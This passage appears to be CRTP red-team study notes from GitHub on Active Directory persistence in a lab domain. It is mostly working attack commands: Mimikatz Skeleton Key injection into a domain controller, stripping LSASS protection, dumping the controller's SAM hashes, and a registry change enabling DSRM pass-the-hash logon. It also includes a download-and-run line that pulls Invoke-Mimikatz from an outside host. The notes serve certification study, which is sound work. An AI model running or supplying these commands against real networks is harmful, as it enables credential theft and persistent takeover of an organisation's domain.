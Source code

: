 ### check WMI permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```
# Persistence - Skeleton Key
### Use the below command to inject a skeleton-Key
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
### Now we can access any machine with valid username and password as mimikatz
```
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```
### LSASS running as a protected process
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

# Persistence - DSRM
Every Domain Controller device contains a Local Administrator. we put the private password in this user when we create the Active Directory environment, so it is rarely used, change the password or access unless a disaster occurs in the Active Directory in order to reset the environment.
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/cbfcdb2f-41d8-42b3-af04-dfbb80266380)

In this technique, we will try to obtain the password for the local administrator of the domain controller so that we can implement the Pass-the-hash technique at any time to browse the share files of the domain controller

In order to apply the technique, we must run a PowerShell session with a user in the domain admins group
### Apply
1. first thing we will access the domain controller device through this command
```
Enter-PSSession -ComputerName dcorp-dc
```
2. Next, load the Mimikatz tool using this command
```
iex (iwr http://172.16.100.7/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
3. execute this command to get the local passwords on the domain controller
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
# OR
Invoke-Mimikatz -Command ‘”token::elevate” “lsadump::sam”’ -Computername <target>
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/3408dd39-c4af-4617-9ae2-11621abcde9f)
4. now before we apply the Pass the hash technique, we need to add the Logon Behavior element in the registry and give it the value 2 so that we can use the NTLM hash in it.
```
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
```